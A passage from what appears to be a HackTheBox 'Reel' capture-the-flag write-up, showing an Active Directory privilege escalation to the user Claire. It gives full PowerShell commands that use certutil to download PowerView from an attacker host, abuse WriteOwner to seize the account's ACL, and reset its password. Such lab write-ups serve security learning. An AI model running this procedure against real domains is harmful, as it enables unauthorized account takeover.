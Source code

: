 ![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reel/Untitled%203.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-reel/Untitled%203.png)

## PrivEsc → Claire

To get claire account, We can use the WriteOwner permission along with the functionality of PowerView.

- WriteOwner - change object owner to attacker controlled user take over the object

Steps:

- First we became the owner of Claire's ACL
- Then We get Reset Password Permission
- And use that permission to change it.

```bash
PS C:\Users\tom> certutil -urlcache -split -f http://10.10.14.30/PowerView.ps1              
****  Online  ****                                                                          
  000000  ...                                                                               
  0bc0e7                                                                                    
CertUtil: -URLCache command completed successfully.                                         
PS C:\Users\tom> Import-Module .\PowerView.ps1                                              
PS C:\Users\tom> Set-DomainObjectOwner -identity claire -OwnerIdentity tom                            
PS C:\Users\tom> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword                                                                                
PS C:\Users\tom> $SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force   
PS C:\Users\tom> Set-DomainUserPassword -identity claire -accountpassword $SecPassword      
```

Password Changed successfully.
